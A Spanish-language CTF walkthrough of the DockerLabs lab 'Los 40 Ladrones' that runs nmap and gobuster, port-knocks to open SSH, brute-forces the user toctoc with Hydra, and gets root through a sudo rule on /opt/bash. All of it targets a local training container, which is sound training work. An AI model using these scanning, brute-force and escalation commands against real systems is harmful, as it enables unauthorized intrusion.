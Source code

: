 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Los 40 Ladrones DockerLabs (Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip los40ladrones.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh los40ladrones.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-17 11:18 EST
Nmap scan report for express.dl (172.17.0.2)
Host is up (0.000031s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.71 seconds
```

Vemos una web de `apache2` normal, por lo que vamos a realizar un poco de `fuzzing`:

## Gobuster

```shell
gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt -t 100 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 10792]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/qdefense.txt         (Status: 200) [Size: 111]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

Vemos un archivo interesante llamado `/qdefense.txt` que si entramos dentro de el veremos lo siguiente:

## Escalate user toctoc

```
Recuerda llama antes de entrar , no seas como toctoc el maleducado
7000 8000 9000
busca y llama +54 2933574639
```

Vemos que tenemos que hacer un `portknocking` de la siguiente forma en nuestro `host`:

```shell
knock <IP> 7000 8000 9000
```

Ahora si nosotros enumeramos que puertos estan abiertos de nuevo:

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

Info:

```
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-17 11:52 EST
Initiating ARP Ping Scan at 11:52
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 11:52, 0.06s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 11:52
Scanning 172.17.0.2 [65535 ports]
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 11:53, 26.37s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000063s latency).
Scanned at 2025-01-17 11:52:34 EST for 27s
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 26.55 seconds
           Raw packets sent: 131090 (5.768MB) | Rcvd: 24 (1.040KB)
```

Vemos que se nos ha abierto el puerto `SSH` por lo que vamos a probar a poner como usuario `toctoc` ya que parece que se refiere a el como un usuario y tirarle fuerza bruta con `hydra`:

### Hydra

```shell
hydra -l toctoc -P <WORDLIST> ssh://<IP> -t 64
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-17 11:54:52
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[STATUS] 323.00 tries/min, 323 tries in 00:01h, 14344106 to do in 740:09h, 34 active
[STATUS] 264.67 tries/min, 794 tries in 00:03h, 14343635 to do in 903:16h, 34 active
[22][ssh] host: 172.17.0.2   login: toctoc   password: kittycat
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 28 final worker threads did not complete until end.
[ERROR] 28 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-01-17 11:58:17
```

Vemos que hemos encontrados las credenciales del usuario `toctoc` por lo que nos conectaremos a el.

### SSH

```shell
ssh toctoc@<IP>
```

Metemos como contraseña `kittycat` y veremos que estamos dentro como dicho usuario.

## Escalate Privileges

Si hacemos `sudo -l` veremos los siguiente:

```
Matching Defaults entries for toctoc on f120d0baef4d:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User toctoc may run the following commands on f120d0baef4d:
    (ALL : NOPASSWD) /opt/bash
    (ALL : NOPASSWD) /ahora/noesta/function
```

Vemos que podemos ejecutare el binario `/opt/bash` como el usuario `root`, por lo que haremos lo siguiente:

```shell
sudo /opt/bash
```

Si ejecutamos eso veremos que somos `root`, por lo que ya la habremso termiando.
